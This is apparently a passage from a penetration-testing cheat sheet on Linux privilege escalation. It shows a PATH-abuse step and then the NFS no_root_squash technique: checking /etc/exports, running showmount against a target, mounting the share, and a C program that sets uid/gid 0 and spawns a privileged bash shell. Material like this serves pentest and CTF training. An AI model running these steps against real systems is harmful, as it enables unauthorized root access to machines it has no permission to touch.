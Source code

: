 ***

* Run path script to get privileges

{% code overflow="wrap" lineNumbers="true" %}
```bash
./path
#This will return a root shell
```
{% endcode %}

## <mark style="color:orange;">Abusing NFS misconfiguration</mark>

* Check NFS configuration

{% code overflow="wrap" lineNumbers="true" %}
```bash
cat /etc/exports
#Example results
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```
{% endcode %}

{% hint style="info" %}
We notice the `no_root_squash` value
{% endhint %}

***

* On the host machine check for mountable shares

{% code overflow="wrap" lineNumbers="true" %}
```bash
showmount -e $targetIP
#Example results
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
```
{% endcode %}

***

* On the host machine, create a shared folder with the target

{% code overflow="wrap" lineNumbers="true" %}
```bash
mkdir /tmp/Attack
sudo mount -o rw $targetIP:/home/ubuntu/sharedfolder /tmp/Attack
```
{% endcode %}

***

* Write a simple script in C to ask for a shell

{% code title="nfs.c " overflow="wrap" lineNumbers="true" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setgid(0);
    setuid(0);
    system("/bin/bash -p");
    return 0;
}
```
